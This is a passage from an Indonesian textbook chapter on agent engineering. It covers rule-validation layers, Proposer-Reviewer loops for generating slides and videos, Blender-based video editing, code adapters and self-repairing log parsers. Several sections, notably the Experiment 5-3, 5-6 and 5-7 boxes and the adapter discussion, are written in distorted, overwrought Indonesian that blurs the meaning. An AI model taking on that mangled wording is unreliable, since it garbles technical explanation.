independensi.

Sistem proteksi berlapis-tiga kini sudah merengkuh kegenapan: (1) wujud tuturan kaku kaidah di ranah tulisan dalam bingkai *system prompt* mengakomodir jangkauan cerna dan pemaparan; (2) penjelasan detil rupa-alat berikut perincian ragam ukurannya berfungsi ibarat daftar tilik (checklist), menuntun jalan nalar agen guna membongkar sekat ragam pra-syarat (conditions) dengan seksama sebelum melakukan tindakan (*calling*); (3) pangkalan pemeriksaan di sektor penyedia (*server-side code-based validation*) yang bertumpu kuat pada pijakan sumur mata kebenaran (database ground truth) lantas bersolek bertingkah memegang titah selayak penjaga tapal pintu akhir. Sepasang tingkatan yang awal memangkas angka timbulnya probabilitas tersesat, sedang lapis ke tiga mendaulat tak-adanya lagi cacat yang menggelepar (irreversible losses) pasca semuanya terjadi.

> **Eksperimen 5-3 ★★: Model AI berskala kerdil (Small models) melejitkan akurasi kepatuhan mengeksekusi aturan dengan berkaca di atas landasan ilmu pengetahuan murni sandi-kode**
>
> **Tujuan uji coba (Experiment objective)**: Mengesahkan tesis (Verify) bila mana menterjemahkan jalinan ruwet tata kelola (complex business rules) ke ranah kodrat penulisan baris kode, ia secara drastis mendongkrak konsistensi juga ketelitian dalam tataran pengeksekusian perintah bagi si LLM dengan kerangka tubuh mini (Qwen3-4B).
>
> **Tata langkah pengerjaan teknis (Technical approach)**: Tempa wujud serangkaian uji banding kendali-batas (controlled experiment) berpijak di dasar kasus simulasi pelayanan penumpang perhubungan udara sang τ-bench. **Klaster Kendali (Control group)**: Semata dijejali serpihan rupa pakem berbahasa kaku murni, serta mempasrahkan mandiri di nalar olah hitung si agen sendiri. **Klaster Pelaku Uji Eksperimen (Experimental group)**: Memasang Tiga-Lapis sabuk tameng — the *system prompt* mengemban terus amanah perwujudan pedoman luwes aturan kaku alami (natural language rules); baris detil tata deskripsi alat menjembreng telanjang (lists) perihal rambu pedoman penuh secara runut serentak melempar asupan pemicu berupa sandangan opsional `expected_*` di sektor pengukur (parameters) buat mengekang si model agar selalu menengok serta menguji masing masing deret kaidah persyaratan itu runut tanpa luput manakala hendak melecut alat tersebut (checklist); adapun jeroan instrumen senantiasa sigap menyetel sendiri validitas ala penelisikan *code-based validation* bersandarkan rupa acuan mata kebenaran imitasi si pangkalan-data asli/simulated database ground truth (segala rupa kenyataan/fakta aturan mutlak dirujuk balik dari database, tempo jam di-pas dari arah pangkalan server, serta celoteh klaim hasil *self-reported parameters* milik agen sontak dilepehin tak dipercaya sama sekali). Metrik takaran evaluasi (*Evaluation metrics*): jenjang rasio sukses, rentetan banyaknya temuan penikungan (violations), kalkulasi banyaknya tindakan alat pemanggil (tool calls) bernilai tidak-sah/invalid, pengalaman bagi *user*.
>
> **Ekspektasi Temuan Hasil (Expected results)**: Klaster bereksperimen itu diramal bakal moncer cemerlang membikin malu saingannya. Melampaui sebatas hal itu, justru kepiawaian sang *model* memutus membedah secara lincah otodidak bakal ketimpangan pelanggaran kebijakan (policy violations) disaat baru memformulasikan racikan parameter, kemudian melempar tawaran solusi ganti (*alternatives*) sama-sekali tiada harus terburu menyentuh sang perangkat (*tool*), sungguh mentasbihkan tingginya keutamaan dari tata ukuran sebagai daftar tilik (*checklist*). Di ujung jalan, kalkulasi atas persentase kelencengan selisih rupa nilai takaran `expected_*` yang direka agen dengan temuan pangkalan asli ground truth bakalan mensahihkan alasan kuat mengapa sang dewa penyaring kubu (server-side validation) ini dipatuh-butuhkan demi menangkap ulah penyelewengan cacat rasional akal sang model (reasoning errors).
>

### Pembuatan Multimedia Berbasis Kode

Pembuatan banyak dokumen kompleks pada dasarnya adalah organisasi dan presentasi data terstruktur. Baik itu presentasi, laporan teknis, atau aplikasi interaktif, struktur dasarnya ditentukan oleh kode — HTML mendeskripsikan struktur, CSS mengontrol gaya, dan JavaScript mengimplementasikan interaktivitas. Pembuatan dokumen tradisional bergantung pada editor *WYSIWYG* berbasis GUI, yang sangat tidak cocok untuk Agen karena memerlukan interpretasi visual dan penempatan kursor (pointer) yang tepat. Melalui pembuatan kode, Agen melewati tantangan pemosisian visual tersebut dan mendapatkan kendali presisi atas dokumen — posisi, gaya, dan konten setiap elemen didefinisikan dengan jelas dan dapat dimodifikasi serta dioptimalkan secara terprogram.

**Agen Pembuat PPT.**

Pembuatan PPT (presentasi) terkenal sangat melelahkan. Presentasi akademis yang tipikal bisa mencapai puluhan *slide*, masing-masing menuntut tata letak yang cermat, poin-poin utama yang disuling, dan bagan yang dipilih dengan baik. Namun, jika kita membingkai ulang pembuatan PPT sebagai masalah pembuatan kode, sebagian besar kerumitannya akan hilang. Framework presentasi modern seperti Slidev merangkul filosofi desain yang elegan: mendefinisikan konten dalam Markdown dan HTML. Membuat sebuah *slide* hanya membutuhkan beberapa baris *markup* ringkas, dan *framework* tersebut akan menangani proses *rendering*, tata letak, dan animasinya. Bagi Agen yang telah menguasai pembuatan kode, ini adalah ranah yang ideal.



Namun, sekadar menghasilkan kode tidaklah cukup. **Setelah Agen menulis kodenya, ia tidak tahu bagaimana hasil akhirnya ketika di-*render***: konten yang terlalu padat, teks yang tumpah (overflow), gambar yang salah ukuran — semua ini tidak akan terlihat sampai *slide* tersebut benar-benar di-*render*. Oleh karena itu, diperlukan sebuah mekanisme **Proposer-Reviewer** (ditunjukkan pada Gambar 5-5) untuk menugaskan pembuatan kode dan peninjauan kualitas kepada dua Agen yang independen:

- **Agen Pengusul (Proposer Agent)** bertanggung jawab untuk menghasilkan kode Slidev, memahami struktur logis dari konten, dan memecahnya ke dalam halaman-halaman yang masuk akal.
- **Agen Peninjau (Reviewer Agent)** menjalankan kode untuk me-*render* setiap halaman menjadi sebuah gambar, menggunakan Vision LLM (model bahasa besar multimodal yang dapat "melihat" gambar) untuk mengevaluasi *slide* yang di-*render* dari segi kepadatan konten, keterbacaan, kualitas tata letak, dan daya tarik visual, lalu menghasilkan **saran perbaikan terstruktur** — bukan sekadar tanggapan samar "kelihatannya tidak bagus", melainkan panduan yang spesifik dan dapat ditindaklanjuti (misalnya, "Halaman 3: konten terlalu banyak, pertimbangkan untuk membaginya"; "Halaman 7: *font* blok kode terlalu kecil, disarankan untuk meningkatkannya menjadi 14pt"), termasuk *field* seperti nomor halaman, jenis masalah, dan tingkat keparahan.

Proposer menerima umpan balik tersebut, menafsirkannya, memodifikasi kode, lalu mengirimkan ulang versi baru ke Reviewer. Siklus ini berlanjut hingga presentasi tersebut memenuhi standar kualitas atau telah mencapai jumlah iterasi maksimum (misalnya, lima putaran). "Kualitas memenuhi standar" dan "putaran maksimum" adalah dua jenis kondisi penghentian (*stop conditions*) eksplisit yang diminta oleh Loop Engineering: yang pertama membiarkan *reviewer* memutuskan bahwa tujuan telah tercapai; yang terakhir adalah batasan anggaran untuk menjaga agar siklus tidak berjalan tanpa kendali.

Siklus Proposer-Reviewer di sini mengikuti pola yang sama dengan mekanisme **pra-persetujuan (pre-approval)** pada Bab 4: satu Agen membuat usulan, dan Agen lain secara independen mengevaluasinya. Kedua penerapan ini berbeda dalam hal tujuan dan alur kerjanya. Bab 4 menggunakan pola ini untuk menyetujui atau menolak sebuah operasi *irreversible* (tidak dapat dibatalkan) tunggal; sementara di sini, pola ini mendorong iterasi perbaikan konten selama beberapa putaran, di mana Reviewer melihat keluaran *render* yang tidak tersedia bagi Proposer. Prinsip desain intinya tetap konsisten (batasan tujuan bersama, penggunaan famili model yang berbeda untuk mengurangi probabilitas kesalahan yang sama, umpan balik sebagai *event* khusus yang ditambahkan ke *trajectory* Proposer). **Keunggulan inti** dari penggunaan pembagian kerja agen-ganda (dual-agent) alih-alih siklus agen-tunggal (single-agent) terletak pada **manajemen konteks**: Reviewer hanya memproses gambar *render* dari versi terbaru, tidak terpengaruh oleh versi-versi historis; Proposer hanya mengakumulasi teks umpan balik yang terstruktur, mengonsumsi token yang lebih sedikit dan membuat penalaran menjadi lebih mudah. Solusi agen-tunggal (single-agent) akan perlu mengakumulasi gambar *render* dari beberapa putaran untuk puluhan halaman di dalam konteks yang sama, yang dengan cepat akan melampaui batas konteks. Mekanisme ini akan digunakan kembali dalam eksperimen selanjutnya pada pengeditan video dan visualisasi log; Bab 10 akan mengeksplorasi lebih lanjut metode-metode kolaborasi *multi-agent* lain di luar paradigma Proposer-Reviewer.

> **Eksperimen 5-4 ★★: Pembuatan PPT otomatis dari makalah (paper)**
>
> **Tujuan eksperimen**: Secara otomatis menghasilkan presentasi berkualitas tinggi dari makalah akademis, memverifikasi keefektifan mekanisme Proposer-Reviewer dalam pengendalian kualitas pembuatan konten.
>
> **Pendekatan teknis**: Menggunakan framework Slidev. Agen Proposer membaca file PDF makalah, mengekstrak struktur bab, argumen inti, dan gambar, merencanakan struktur PPT, serta menghasilkan kode Slidev halaman demi halaman. **Langkah kunci**: Agen Reviewer me-render setiap slide dan mengambil tangkapan layar (screenshot), kemudian menggunakan Vision LLM untuk mengevaluasi hasilnya terkait luapan teks (text overflow), kepadatan konten, dan ukuran gambar yang tidak tepat. Proposer dan Reviewer beriterasi hingga presentasi memenuhi standar kualitas.
>
> **Kriteria penerimaan**: Menghasilkan 10-20 slide yang mencakup kontribusi utama dari makalah tersebut. Menyertakan setidaknya 3 gambar asli yang selaras dengan teks pendampingnya. Tidak ada luapan teks saat di-render, dengan tata letak yang masuk akal. Membandingkan konsumsi konteks dan kualitas hasil generasi antara *self-review* agen-tunggal dengan pembagian kerja Proposer-Reviewer.
>

> **Eksperimen 5-5 ★★: Pembuatan otomatis video penjelasan makalah**
>
> **Tujuan eksperimen**: Memperluas kemampuan pembuatan presentasi, menggabungkan saluran visual dan auditori untuk mencapai kemampuan generasi otomatis video penjelasan.
>
> **Pendekatan teknis**: Membangun di atas alur kerja presentasi dari Eksperimen 5-4, Agen juga menghasilkan narasi percakapan (conversational narration) untuk setiap slide—sebagai panduan bagi penonton alih-alih hanya mengulang teks di slide—kemudian menggunakan TTS (text-to-speech) untuk mensintesis audio, lalu menggabungkan gambar slide dan audio tersebut dengan FFmpeg untuk memproduksi video akhir.
>
> **Kriteria penerimaan**: Menghasilkan video berdurasi 5 hingga 15 menit di mana waktu tayang setiap slide persis cocok dengan narasinya, dan narasinya berhubungan (correspond) dengan elemen visualnya.
>
>
> 
>

**Agen Pengeditan Video (Video Editing Agent).**

Mengedit video melalui antarmuka Computer Use (Penggunaan Komputer) tujuan umum menimbulkan hambatan yang sangat besar: GUI (Antarmuka Pengguna Grafis) pengeditan video memiliki tingkat kerumitan yang luar biasa — sarat dengan garis waktu (timeline), lapisan (layers), dan panel efek. Sebuah Agen harus menavigasi dan memanipulasi elemen-elemen ini menggunakan *mouse* dan *keyboard*, suatu operasi yang membutuhkan titik koordinat eksak, sesuatu yang sangat sulit dihasilkan oleh model.

Dengan membingkai ulang pengeditan video sebagai eksekusi panggilan API (API calls) dan pembuatan kode (code generation), kerumitan tersebut akan berkurang secara drastis. Banyak perangkat lunak profesional (misalnya Blender — sebuah peranti kreasi 3D bersumber terbuka dan penyunting video yang memiliki dukungan skrip Python; FFmpeg — alat baris perintah (command-line) serbaguna untuk pengolahan audio/video) menyajikan *interface* pemrograman API yang mengekspos fitur inti dalam format terstruktur serta dapat disusun rapi (composable). Contohnya, API Python di dalam Blender mengizinkan penanganan presisi pada sederet proses seperti penambahan (importing), pemangkasan (trimming), pengaturan posisi, penyisipan efek transisi, serta pencampuran lajur suara pada klip video, di mana setiap operasi dikaitkan secara jernih (clear) ke sebuah pemanggilan fungsi. Di mata Agen, mengonversi pesanan dalam *bahasa alami* menjadi untaian panggilan API jauh lebih ringan dibanding harus menterjemahkan tata letak *GUI* serta mereka-reka klik tetikus (*mouse clicks*). Layaknya proses pembentukan PPT, pengeditan video pun memakai resep dari mekanisme ganda *Proposer-Reviewer* — Agen Proposer akan melahirkan skrip Blender, dan Agen Reviewer me-*render* bingkai inti (keyframes) lalu memanfaatkan insting dari sebuah *Vision LLM* untuk menelisik wujud jadinya, melontarkan umpan balik (*feedback*) untuk tahap perevisian.

> **Eksperimen 5-6 ★★: Pengeditan video cerdas berbasis API**
>
> **Tujuan eksperimen**: Memverifikasi kemampuan sang Agen untuk menangani pengeditan video lewat penciptaan kode Blender API Python, sekaligus menakar peranan mekanisme pengawasan berlapis Proposer-Reviewer berbasis umpan-balik visual pada pemrosesan isi dari tayangan multimedia.
>
> **Tantangan Inti (Core challenge)**: Menangkap keinginan kebutuhan memoles rekaman (editing requirements) berbasis petunjuk bahasa alami sang pengguna lantas mengubah susunannya menjelma sekuens pasti dari deretan seruan panggil-API (API calls), menangani aneka manuver (*operations*) edit memotong/menggabung (trimming, merging, subtitles, audio track mixing, visual effects), seraya menjaga agar skrip Python rakitannya jalan (executes correctly). Pasca Agen Proposer membidani sandi-kodenya, secara langsung dia bakalan kelimpungan tak sanggup menilai tayangan video wujudnya itu; nasibnya dipasrahkan bertumpu memelas pada si Agen Reviewer (*Reviewer Agent*) agar mensintesa tampilan (*render*) lalu mengerahkan pandangan Vision LLM-nya guna menjajaki kualitas sang wujud dari potret-inti/keyframes-nya.
>
> **Pendekatan teknis (Technical approach)**: Klien menyerahkan asupan mentahan (*video material*) semisal tayangan kotor berisi aksi berselancar, pendakian (hiking), ataupun laju pemain ski salju (skiing), dibarengi tuntunan pesanan via tutur kata wajar ("Potong sajikan adegan *surfing* nya doang"). Sang Agen *Proposer* lalu memanggil sebuah *sub-agent* khusus bedah video berserta **siasat pemeta-lokasi berjenjang ganda (*two-step localization strategy*)**:
>
> **Tahapan Ke-Satu (Step 1), penyergapan mematok kasar (coarse localization)**: Tugaskan sub-agent menyisir lajur-asal tayang (video path), per semburan waktu tiap selang 10 detik ambil secarik tayang-henti/frame-sampling, lantas melontarkan tebak soal sasarannya. Sub-agent ini mendayakan tenaga `ffmpeg` menjerat wujud-hentinya dalam kisaran tempo jedanya, memasukkan asupan foto cuplikan (*screenshots*) serta soal itu (question) kepada si peramal *Vision LLM*, lalu melempar pulang letak irisan selang episodenya/scene interval (sebagai wujud "Aksi Berselancar berada dalam selisih renggang detik 40 - 110").
>
> **Tahapan Ke-Dua (Step 2), penandaan pelacakan rincian-terperinci (fine-grained localization)**: Tugaskan bertempur sub-agent sekali lagi mencakup radius lebih spesifik (narrower range) dan menjepret sampel satu bingkai foto dalam setiap helaan detiknya agar merampas letak dinding-batas pas persis batas mulanya (locate the boundaries precisely).
>
> Tindakan merakit-ulang peruntukan analisator-video selaku balutan perwujudan entitas `sub-agent` menghindari insiden meroketnya serapan serbuan tumpukan ratusan gambar cuplikan (*screenshots*) yang menyesakkan ruang-muatan nafasnya sang sentral Agent aslinya (main Agent's context). Seusai proses pengurungan (*localization*), Agen Proposer membangkitkan (generates) alur jejak sihir skrip API Blender-nya. Bagian Penilik Agen *Reviewer* lalu mendepani proses tayang lekas (quick preview), membelalak awas memindai deretan foto inti/keyframes, dan membuahkan gema-umpan (feedback) revisian (modification), terus bergulir saling lempar (iterating) melaju pesat selagi tuntas memenuhi batas standarnya sesaat belum merangkai tampilan tayang seutuhnya (*full rendering*).
>
> **Kriteria penerimaan**: Sang Agen jeli menyibak tiap penggalan episodenya yang beragam dari hamparan videonya serta fasih melahirkan racikan jejak *script* penyuntingan selaras arahan titah (instructions) pengguna beralaskan petunjuk lazim. Posisi mula (start) hingga pungkasannya (end points) tepat akurat menyasar murni dengan toleransi tak lebih (error within) sekitaran 3 detikan. Manakala arahan titah itu mengandung tambahan permintaan istimewa semisal *efek* tambahan spesial (laju lambat/slow motion, peralihan laju/transitions, penyemat takarir/subtitles), gubahan videonya selaras telak menampilkan rupa (applies) imbas-pesonanya dengan betul (correctly). Sub Agen Pengulas (*Reviewer*) sigap menembak galat rupa/kesalahan lugu yang jelas telanjang mata (*detect obvious errors* semisal raibnya konten inti (*missing key content*), maupun sisipan keping keliru yang tak berkaitan) serentak merangsang daya pemicu (trigger) pembetulannya (corrections). Format (file) keluaran sang rakitan tayang akhir wajib ber-rupa beralaskan kaidah lurus serta kualitas wujud jadinya menyamai takaran kelulusan (expected quality).
>
### Kode sebagai Adaptor Sistem (System Adapter)

Kode yang dibahas pada bagian-bagian sebelumnya sebagian besar menghasilkan sesuatu yang "berorientasi pada manusia" (human-facing) — laporan, presentasi, antarmuka. Di bagian ini, kode diarahkan ke titik tujuan yang berbeda sama sekali: **menghubungkan antarmesin**. Di dalam ranah sistem nyata, berbagai layanan eksternal yang mesti diajak berbicara oleh Agen acapkali nihil perihal keberadaan peranti (SDK) siap-pakai, pun tatanan antarmukanya (interfaces) teramat langka terjamah kerapian — keping panduan manual-dokumentasinya bisa jadi musnah, susunan format pantulannya (response) mungkin saja liar menyalahi standar pakem (nonstandard), serta ladang (*fields*) isi kolom-kolomnya (drifts) melenceng ke mana-mana seiring silih bergantinya versi-versi barunya. Si Agen tidak sepatutnya mangkrak sabar melenguh berharap pada munculnya penyesuai-sistem racikan-baku (prebuilt adapter) yang jadi. Ia sanggup mandiri mencerna membedah panduan-dokumentasi per-API-an atau malahan mengulik setumpuk kecil contoh tanggapan-tanggapan rill (real responses) sungguhan, lalu sekonyong-konyong menciptakan keping *adapter* sesaat dituntut kebutuhannya (on demand): merekatkan wujud jembatan *HTTP client*, memilin-memahat atribut tanda kepala otentikasi (authentication headers), menebas memilah serabut susunan wujud jawaban tak-beraturan (nonstandard response structure), serentak menyalin-mengalih model kepingan (translate) data wilayah hulu mengembara di wujud tatanan raut sebentuk apa pun yang kuasa ditelan rupa-hilirnya kelak (downstream). Di wilayah ranah ini kode bertingkah wujud sebagai "perekat lem absolut (universal glue)" guna merekatkan (connecting) sejenis per-sistem-an apapun jua sekehendaknya (arbitrary) — pada area manakala renggang terpapar jurang lubang nan retak (gap), di sana lantas lahir keping lem setetes sekejap saja diciptakan untuk sudi lekas merekatkan lubangnya. Disitulah persis terletak jantung denyut jantung sang meta-kapabilitas dari sektor ranah "antarmuka antarsistem (system interface)". Kelincahan mengolah parsing log yang disorot di pendedahan sesudahnya tak pelak merupakan representasi daya kekuatan konkret pada wujud ranah observasi (*observability setting*): saat dirundung susunan log yang membelot berkesinambungan berevolusi tak kenal diam, Sang Agen sepadan itu-pula membenah menyepadankan rupa seraya meracik wujud sandi pengurainya seketika-saja (*on the fly*).

Perihal "lem perekat absolut" gubahan ini jua tangguh untuk melebar memeluk **ragam kelompok yang nir-basa API sama-sekali**: sewaktu berhadapan dengan piranti belahan-sistem luar memampang secuil sisa-sisa sekedar jajaran antarmuka-gamblang (graphical interface), Sang Agen lekas memilah membabat melakonkan perintah antarmuka menyaru rupa liuk-gerak si Pengguna-Komputer (*Computer Use*) (didiktekan jelas di naungan Bab 9), perlahan kemudian memahat kokoh rekam jejak sekuen olahan tadi (*operation sequence*) luluh merasuk di wadah perkakas RPA yang termaktub tulen bagai jajaran kode — manakala di kemudian harinya tertimpa tugas sejodoh setimpal semacamnya itu menguak kembali, ia tinggal melempar jalannya (runs) barisan tulisan kodenya, sat-set kilat lagi sakti anti-goyah, tiada lagi pungutan tebusan daya kaji nalar visualitas yang mencekik itu lagi (expensive visual reasoning). Berwujud gubahan RPA lah, dapat dimaknakan, ia sang perpanjangan perangkai sistem pada perwujudan batas maksimal (extreme)-nya: rakit perakit jembatan peranti buat ranah ketiadaan antarmuka per-sandi-program-an secara (programmatic interface). Alunan irama rekayasa penciptaan "Perekaman laku rutinitas dan perakitan memadatkannya (*workflow recording and solidification*)" niscaya dilukiskan utuh di rahim Bab 8.

Perkara penataan perihal rupa-rupa pengolahan basis-data pastinya bertengger menancap sejajar selaku kumpulan laku ke-ugahari-an (most common) — berbarengan pula ter-kuras merongrong tenaga kebosanannya (tiresome) — lakon rutinitas harian di rimbunan peranti tataran lunak. Akar pusar penyakit dari lahat ini tak luput di rupa ragam perawakan data (*data formats*) nan plural menolak diam terpaku menancap. Satu wujud entitas ranah sistem bisa mempreteli memutar-bolak kemasannya merubah susunan formatnya bertubi tak lelah sejurus alur-waktu pertumbuhannya (*evolves*) — melahirkan sebaran padang kolom (fields) bau kencur, struktur sarang susunan barunya, hingga bongkah varietas yang anyar. Merakit manual berlembar deretan pendeteksi pelacaknya (*parser*) buat tiapan wujud perwajahan bentuk rupanya bakalan senantiasa membopong beban laknat tebusan kepeliharaannya yang mendera parah (punishing maintenance cost): tiap serpih gerak bongkar perubahannya mendiktekan aksi wajib mempermak urat nadi alur penguraian (*parsing logic*), kembali meretas menjajaki ikatan relasinya kompatibilitasnya (compatibility), baru bergegas mengedarkan memancar turunan wujud asupan versinya-barunya lagi.

Tatkala Sang Kode mengambil alih panggung kemudi penempaan, segumpal jalan pencerahan menyeruak drastis seutuhnya beda sama-sekali: di saat Sang Agen bertegur-sapa berpapasan menyapa perawakan (format) anyar, dengan enteng ia menyihir wujud deret kode pemecah rupa pembacanya tadi secara mendadak seketika (*on the fly*) berpijak pada data cicipan sekilas (sample data), niscaya membuat rimbun sistemnya dapat selaras mengendus pergerakan pergeseran rupa bentukan tak kenal lelah merangkai auto tanpa campur jari tangan umat manusianya jua (human intervention).

**Mengurai dan Memvisualisasikan Log Agen (Agent Log Parsing and Visualization).**

Kinerja pemantauan (*observability*) atas jalannya panggung Agen sangat membebek meminjam wujud wacana sajian alur rupa-gambar (*visualization*) serapan runtutan kisah lakonnya (*execution flows*). Suatu gugusan tugas nan berat (complex Agent task) sanggup menelan jejaring jajaran tahapan mencapai beratus rupa-nya, melibatkan serangkaian gerak memicu seruan *LLM calls* bertubi, perputaran gerak mengeksekusi peralatan (tool executions) di kisaran puluhan kalinya, teramat lagi silang sapa campur baur antar jejaring kawanan (multiple sub-agents) Agen di lapis-dalam sana. Membingkai gambar kasat-mata membentang meraut sajian setumpuk himpunan data rumit tersebut bakal dijegal rintangan (challenges) yang berjubel: peralatan (tools) nan rupa-rupa rupanya memuntahkan pulangan isi balik (return data) bersarungkan busana bermacam *structures* tatanan, serentak rautannya pula merekah berevolusi laju menjejak kancah jejak lompatan langkah pembaruannya (*system iterations*); sebongkah riwayat (trajectory) secara purna bisa saja tertimbun sesak merampas hitungan baris ratusan ribu butir aksara membebankan ketahanan kesaktian timbangan neraca imbangan (*balance*) pada sajian rangkuman global (overview) hingga ceruk kedetailan liangnya (*detail*).

Rupa cipratan Pembangkit Kode (Code generation) mendedahkan perwujudan tawaran pemecahan (elegant solution) adiluhung: memancang benteng lingkar penyembuh mandirinya sendiri (auto-repair feedback loop). Kala bilik tampilan depannya (frontend) tertumbuk memergoki bingkai wajah log perawakan gagal-urai (*unparseable*), sebagai langkah tolakan-diri ia menolak menampangkan seruan-sesat/error melainkan ia auto berlagak melaporkan secarik warta ralat informasi kelam tersebut (sekeping sisa patahan raw log sample, dan paparan bertele rincian cacat rusaknya/detailed error) menjorok menembus sang Agen. Sang Agen-pun menerawang telik-selidik mengulas lekuk ragam dari contoh bangun strukturnya (sample data structure) lalu menyihir sebaris dua-baris guratan deret sandi pengolah bagian-depan/frontend-code yang ampuh menterjemahkan hal tersebut utuh sempurna (correctly parse it). Gubahan hasil-sandi itu perdana dilecut paksa dulu dalam simulasi semesta tes maya (virtual browser) semata-mata menimbang kekuatan keshahihan hasil rombak (parsing correctness), lantas seperkasa kubu sang Vision LLM meneropong menguji-sah wujud ke-elokan tatanannya (visualization). Andaikata kedua kancah penapisan itu jebol berhasil (passes both checks), rakitan tersebut diangkat merapat meluncur mendarat di sisi tampilan *frontend* mengarungi perombakan instan mulus (hot update).

> **Eksperimen 5-7 ★★★: Tata-Rakit Sistem Pembaca Log nan Lentur Lincah (Adaptive Log Parsing System)**
>
> **Sasaran Utama Uji-Coba (Experiment Goal)**: Mematri utuh sistem jajaran pelapor visualisasi jejak-Log sang Agen nan menghempas wujud secara bertumbuh-sendiri (*self-evolving*).
>
> **Langkah Penetrasi Teknis (Technical Approach)**: Di langkah pemula kancahnya, sistem sebatas sudi mengais wujud perawakan dasar standar murni. Sisi depan (Frontend) mengendusi ketelodaran saat penguraian gagal → Melontarkan aduan menembus ke Agen → Berbuah pemicuan perakitan pengurai kode pembaca-baru → Uji ketahanan simulasi maya peramban (Virtual browser) → Pengguliran terapan secara mulus auto instan (Hot update deployment). Lingkar jejaring utuh siklus seluruh alirannya seutuhnya tiada diusik tangan manusia (*automated*).
>
> **Garis Tanda Patokan Lulus-Uji (Acceptance Criteria)**: Auto mumpuni mendeteksi rupa-kegagalan sembari melecut nyala mesin ke-pembelajaran, mempersembahkan rakitan buatan kode nembus deret panjang benteng gempuran automasi kelulusan ujicobanya, niscaya sanggup mencerna mengurai wujud rupa gaya pembawaan raut (new formats) setelah sukses ter-update merangsek naik panggung (*hot update*).
>

**Jaring Pemindai Diagnosis Mandiri Otomatis di Sekujur Keping Jejak Lakon Eksekusi sang Agen.**

Ribuan pasukan Agen manakala bergiat kencang di belantara lautan produksi, meruapkan serbuan gelombang tumpukan gelondongan gundukan riwayat jejak rekam (trajectory logs) mencatat-beku rekaman perjalanan seutuhnya per-keping dari kancah rute nafas aksinya (*complete process of each task*). Sungguh disayangkan seutuhnya, laku mencari mengendus bibit setitik permasalahan, mengaitkan mematok akar jasad biang ralatnya (root causes), mengolah menyatukan wujud replikasi asupan bahan ujicobanya semata bersumber rupa endapan kumpulan catatan *logs* tadi ialah laku pendakian mahal berbayar (high-cost endeavor). Tumpukan nista kegagalan dapat saja menyembur meletup serentak buah perseteruan persinggungan rentetan ragam ganda-antar *modules*, mendera laku pelacakan-akar biang ralat (root causes) semacam teka-teki ghaib nan muskil diurai pisah batasan tapalnya. Rentetan penyakit inipun sanggup mengeruk-hempas segepok daya dana sebatas niatan merekayasa memutar ulang simulasi peristiwanya kembali (*reproduce*) sekedar sebab ranah ujicoba rekaan nyaris mutlak jarang kuasa menyandingi derajat tingkat kepekatan kerumitan di pusaran panggung Produksi (*production*). Akhir dari pungkas deritanya, biang celaka serangga (bugs) jamak terbit mengulang kumat menyapa disaat sisa bongkahan sulaman (fixes) tambalan perbaikan enggan ternaungi sapuan lurus regresi ujicoba pengawalan regresinya (*systematic regression tests*).

Rahmat kelahiran Kode Auto-buatan (Code generation) melapangkan jalan lempeng otomasi lajur diagnosis. Sang Agen kuasa menelan mengais pangkalan kubu keping logs rekam jejak produksi-raya, meleburnya serentak dengan segenap kerangka dokumen tatanan desain beserta *PRDs* (*Product Requirement Documents*) demi meluncurkan jurus otodidak pemindai-otomatik menilik telak meraba sejauh mana kelokan arus riwayat operasinya itu tegak beralur mumpuni mengamini rute tujuannya (meets expectations), berlanjut jitu mencatut menuding tajam pemicunya letak kompartemen titik-busuk yang sakit-penyakitan perusak pertiwi (problematic components and modules). Bersandar temuan buah tangan analisis rakitan pembedahan asalnya kelak (analysis results), lantas mencipratkan peluncuran rupa bongkah pengaduan cacat secara rinci beraturan (structured problem reports) (merentang rupa warta tingkat *prioritas*, klaster *modul*, paparan seribu-kata *description*, hingga serbuan warta perbaikan/improvement suggestions) seraya tak kelewatan racikan bumbu *regression test cases*—kumpulan sediaan keping pengujian regressinya langsung jeli menyeret nama rujukan spesifik sandi pemanggil rekam-laku (trajectory ID) ditambah bongkah momen lakon kunci tarungnya (key interaction rounds), hingga jaring pengetes pun sekonyong konyong gesit menghidupkan layar tayang (*replay*) serentak me-validasi lurus mengesahkan kalau-kalau bongkahan rupa piranti gubahan hasil pugarannya itu rupanya menampakkan perilaku elok sehat paripurna berbalaskan atas tempaan jenis gelondongan muatan input nan setimpal 